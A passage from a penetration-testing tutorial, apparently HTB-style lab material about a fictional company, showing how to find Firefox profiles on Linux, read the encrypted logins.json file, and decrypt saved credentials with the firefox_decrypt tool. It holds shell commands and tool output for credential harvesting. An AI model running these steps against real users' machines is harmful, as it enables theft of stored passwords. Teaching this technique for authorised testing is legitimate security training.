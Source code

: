 For example, when we store credentials for a web page in the Firefox browser, they are encrypted and stored in logins.json on the system. However, this does not mean that they are safe there. Many employees store such login data in their browser without suspecting that it can easily be decrypted and used against the company.

## Firefox Stored Credentials
```
cry0l1t3@unixclient:~$ ls -l .mozilla/firefox/ | grep default 

drwx------ 11 cry0l1t3 cry0l1t3 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 cry0l1t3 cry0l1t3 4096 Jan 28 13:30 lfx3lvhb.default
```

```
cry0l1t3@unixclient:~$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://www.inlanefreight.com",
      "httpRealm": null,
      "formSubmitURL": "https://www.inlanefreight.com",
      "usernameField": "username",
      "passwordField": "password",
      "encryptedUsername": "MDoEEPgAAAA...SNIP...1liQiqBBAG/8/UpqwNlEPScm0uecyr",
      "encryptedPassword": "MEIEEPgAAAA...SNIP...FrESc4A3OOBBiyS2HR98xsmlrMCRcX2T9Pm14PMp3bpmE=",
      "guid": "{412629aa-4113-4ff9-befe-dd9b4ca388e2}",
      "encType": 1,
      "timeCreated": 1643373110869,
      "timeLastUsed": 1643373110869,
      "timePasswordChanged": 1643373110869,
      "timesUsed": 1
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```
The tool Firefox Decrypt
```
https://github.com/unode/firefox_decrypt
```
is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, Firefox Decrypt 0.7.0 with Python 2 must be used.

## Decrypting Firefox Credentials
```
Suljov@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: '--REDACTED--'
Password: '--REDACTED--'

Website:   https://www.inlanefreight.com
Username: '--REDACTED--'
```
